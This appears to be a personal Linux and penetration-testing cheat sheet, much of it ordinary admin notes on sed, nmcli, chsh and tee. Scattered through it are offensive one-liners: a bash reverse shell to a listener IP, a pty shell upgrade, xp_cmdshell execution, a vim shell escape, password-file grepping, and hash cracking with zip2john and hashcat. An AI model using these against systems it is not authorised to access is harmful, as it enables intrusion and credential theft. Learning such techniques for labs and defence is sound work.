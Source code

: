 systemd = most common init program in modern linux
&& = executes command if the previous command is successful
| = command1 output is used as input for command 2
; = command 2 executes after command 1 is finished
nmap  -sV :version -O :OS type -sC: Performs a script scan using the default set of scripts

regex to remember
`^` - matches beginning of the line, patches the position not the character
`$` - matches ending of the line, position not the character
smbclient -N (no passwd) -L ( look up) \\\\[ip]\\
python3 -m http.server [PORT]
xp_cmdshell "powershell -c [Command]"
type - cat equiv in powershell
winPEAS - windows vulnerability lookup
python3 -c 'import pty;pty.spawn("/bin/bash")' - Issue a functional shell through a reverse shell
find 
locate [filename]
sudo -l - see what commands you are allowed to run as sudoer
chmod +rwx [file]
export PATH]/[path]:$PATH - sets a command
/bin/sh - starts shell
zip2john - converts a zip file to file that john that crack
hashcat - dehash something
bash -c "bash -i >& /dev/tcp/10.10.15.16/443 0>&1" - issue stable shell through listener

cat * | grep -i pass* - look for password files

if given access to vim /bin/vi -> :set shell=/bin/sh  then run shell

awk '{print $5}' log.txt | cut -d';' -f2 | sort | uniq -c - sort unique of a certain column

grep -o "[0-9]\+\.[0-9]\+\.[0-9]\+\.[0-9]\+" - sort IPs

notepad++ `^(?=.*\b[VALUE]\b)(?=.*\b[VALUE]\B)(?=.*\bVALUE\b).+$` find any string in one line

snort rules
`[ACTION] [PROTOCOL] [SRC IP/IP NET] [SRC PORT] -> [DEST IP] [DEST PORT] (rule option)

`du` -disk usage 

`tee` - read from stdin and write to stdout/fiels
	-a -append
	-i -ignore interrupts
### SSH
ssh-copy-id - allow login from one host to another
### SED
SED performs text transformations on steams
	substitiue some text for other text
	remove lines
	append text after given lines
	insert text before certain lines
	`sed  ` `[options]/search-pattern/replacement-string/flags`
		flags
		`i` -non -case sensitive
		`g` -global replaces all instances instead of first
		`d` - remove all that match
	sed `[OPTIONS]`
		`-i[replacementfile]
		`-s` - first character after the s is the delimiter char
		`-e` - tells sed to execute each differetn commant
			ex. `sed -e '/char/d' -e '/char2/d'`
		select the address/line
		`sed '2 s/apache/httpd/' config`

		``

Changing the shell of the cli 
  When altering a login shell the `chsh`  commmand displays the current login shell and prompts for a new one,
    /bin/sh
    /usr/bin/tcsh
    /usr/bin/bash
    /usr/bin/ksh
    /usr/bin/sh
    /usr/bin/csh
`chsh` cahnges the login shell of the username
Syntax: ` chsh [options] [login] `
  -l = used to specify login shell
  -u = prints list of shell
  -s = used to set the shell as your login shell
Linux nmcli 
  command line tool for controlling network manager
  `nmcli [options] OBJECT {COMMAND | HELP }
    OBJECT options
      general | networking | radio | connection | device | agent | monitor
  -t , terse - computer script processing as you can see the teset output
  -f , field - specifies what fields can bebe displayed on output
  -p , pretty - human readable output
checking overall status of network manager
  nmcli general
Can also be used to start and stop any network interface
  nmcli con up id bond0
  nmcli dev disconnect bond 0
"Note" : nmcli connection down deactivates the connection without preventing auto reconnect
  Nmcli device disconnect disconnects device and prevents reactivation
Restarting network services
      `sudo nmcli networking off
        `sudo nmcli networking on `
`userdel` - delete users
`!!` - execute most recent command
	`!*` - execute most recent command matching `[*]`
Disable useraccount
	`Chage -E 0`


    
